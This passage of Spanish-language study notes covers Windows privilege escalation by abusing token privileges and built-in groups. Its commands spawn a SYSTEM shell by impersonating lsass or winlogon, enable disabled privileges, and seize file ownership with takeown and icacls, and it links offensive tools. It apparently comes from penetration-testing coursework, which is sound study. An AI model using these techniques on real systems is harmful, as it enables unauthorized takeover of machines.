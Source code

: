 	. .\psgetsys.ps1
	ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>
	# Ejemplo con procesos lsass o winlogon, que se ejecutan como system
	. .\psgetsys.ps1
	 ImpersonateFromParentPid -ppid (Get-Process "lsass").Id -command "cmd.exe"  -cmdargs ""
	 ImpersonateFromParentPid -ppid (Get-Process "winlogon").Id -command "cmd.exe"  -cmdargs ""
	```

### SeChangeNotifyPrivilege 
- Permite activar otros privilegios adicionales como `SeTakeOwnershipPrivilege`, `SeDebugPrivilege` ó `SeIncreaseWorkingSetPrivilege`  si estaban como `Disabled`. Usamos el script que aparece [aquí](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
	```powershell
	.\EnableAllTokenPrivs.ps1
	```
### SeTakeOwnershipPrivilege
- Si tenemos este permiso, podemos tomar la propiedad de cualquier objeto securizable (archivos, carpetas, servicios, procesos, objetos de AD...)
	```powershell
	# Tomamos la propiedad del archivo
	takeown /f "C:\TakeOwn\flag.txt"
	# Agregar permisos completos al usuario (en este caso htb-student)
	icacls "C:\TakeOwn\flag.txt" /grant htb-student:F
	```
### SeManageVolumePrivilege
- Se puede explotar con la [siguiente herramienta](https://github.com/Greenwolf/ntlm_theft), tal y como se ve en el [la máquina access de proving grounds](https://medium.com/@Dpsypher/proving-grounds-practice-access-b95d3146cfe9)
### SeRestorePrivilege
- Se puede explotar con la [siguiente herramienta](https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe), visto en la máquina [vaut de proving grounds](https://medium.com/@Dpsypher/proving-grounds-practice-vault-158516460860)

## Grupos integrados de Windows
### Pertenencia a alguno de los grupos
- Podemos comprobar si nuestro usuario está en alguno de los grupos que se muestran a continuación
	```powershell
	whoami /groups | findstr /i "Backup Operators Event Log Readers DnsAdmins Print Operators Server Operators"
	# o una búsqueda más afinada
	$targetGroups = @(
    "BUILTIN\Backup Operators",
    "BUILTIN\Event Log Readers",
    "BUILTIN\DnsAdmins",
    "BUILTIN\Print Operators",
    "BUILTIN\Server Operators"
	)
